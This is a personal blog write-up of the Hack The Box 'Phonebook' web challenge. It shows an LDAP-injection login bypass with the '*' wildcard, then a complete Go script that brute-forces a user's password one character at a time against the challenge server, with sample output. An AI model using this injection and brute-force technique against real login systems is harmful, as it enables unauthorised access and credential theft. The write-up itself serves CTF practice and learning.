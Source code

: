 ```yaml
---
layout: post
title: "[HTB] Phonebook writeup"
slug: "phonebook"
date: "2023-02-13"
comments: false
categories:
  - hacking
tags:
  - ctf
  - write up
  - hack the box
  - ldap
---
```


This is my writeup for Hackthebox [phonebook](https://app.hackthebox.com/challenges/phonebook) Web Challenge. Intially finding a way to exploit the website was quite hard, but once we find the vulnerability, the challenge is pretty straight forward and requires just basic bruteforcing. It also tests our scripting skill and all in all, the challenge is a satisfying one.

# Initial Analysis

Visiting the ip address we are greeted with a login page and some information about a workstation user called Reese.

![phonebook/login](/images/phonebook/phonebook1.png)

*img: phonebook/login*

Since I am greeted with a login page, I tried my luck with sqli for quite a while but it yielded no results. 
All my inputs were greeted with ```Authentication failed```. 

![phonebook/login](/images/phonebook/phonebook2.png)

*img: phonebook/login*

After going through the forums and looking for some hints, I got hints of using wildcards in the input. So I tried ```*``` in both the login fields.
> Just like that, I was in.

The challenge wasn't over and the authenticated page contained just a search page field. I did the same thing as before and tried inputting different combinations of characters and injections in the search field. Inputting alphanumeric characters yielded names, emails and phonenumbers of people but I still couldn't find the flag for the challenge. 

![phonebook/login](/images/phonebook/phonebook3.png)

*img: phonebook/search=reese*

Since the login page had greeted us with workstation user ```reese```, it must be a hint to the flag.
So I tried reese as the username and ```*``` for the password and I was able to log in. 

I got another hint that the challenge is based on [LDAP injection](https://www.synopsys.com/glossary/what-is-ldap-injection.html). So I shifted my focus on getting the password for the username reese since it was quite possibly the flag for the challenge.

So here is the code I wrote for bruteforcing the password using ```*``` characters at the end and trying different permutations of alphanumeric and symbols.

```go
package main

import (
	"fmt"
	"net/http"
	"net/url"
	"strings"
)

const (
	URL = "http://144.126.236.52:31199/login"
)

func checkLogin(formData url.Values) bool {
	response, err := http.PostForm(URL, formData)
	if err != nil {
		fmt.Println(err)
	}
	defer response.Body.Close()

	redir := response.Request.URL.String()

	return !strings.Contains(redir, "Authentication")

}

func main() {
	flag := ""
	str := "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890@_$%!&{}"
	counter := 0

	for {
		if counter == len(str) {
			fmt.Printf("%s", flag)
			break
		}
		password := fmt.Sprintf("%s%c*", flag, str[counter])
		formData := url.Values{
			"username": {"reese"},
			"password": {password},
		}

		if checkLogin(formData) {
			flag = fmt.Sprintf("%s%c", flag, str[counter])
			fmt.Println(flag)
			counter = 0
		} else {
			counter += 1
		}
	}
}
```

And here is output of the code. I had tried to run the bruteforcing concurrently but it had very little impact on the performance since, the machine did not accept many simultaneous request.

```bash
> go run main.go
H
HT
HTB{*
HTB{******
...
HTB{**********}
```

> That's it


